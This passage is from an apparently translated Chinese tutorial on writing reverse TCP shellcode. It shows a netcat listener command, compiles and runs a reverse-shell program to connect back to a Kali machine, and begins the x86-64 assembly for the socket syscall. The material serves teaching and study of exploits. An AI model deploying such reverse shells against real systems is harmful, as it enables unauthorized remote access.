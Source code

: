 在 Kali 上使用 `nc` 命令或 `netcat` 工具设置一个监听器：

```
$ nc -lp 1234
```

在 Ubuntu 上，让我们编译并运行我们的 `reverse-tcp` shellcode：

```
$ gcc reverse-tcp.c -o reverse-tcp
$ ./reverse-tcp
```

再次回到我的 Kali —— 我连接上了！

![](img/00216.gif)

这就是简单的！

现在，让我们在汇编中构建一个反向 TCP shell，然后将其转换为一个 shellcode。

`socket` 函数与我们在绑定 TCP 中解释的一样。将 `socket` 的输出移动到 RDI 寄存器中：

```
xor rax, rax
add rax, 41
xor rdi, rdi
add rdi, 2
xor rsi, rsi
inc rsi
xor rdx, rdx
syscall

mov rdi, rax
```
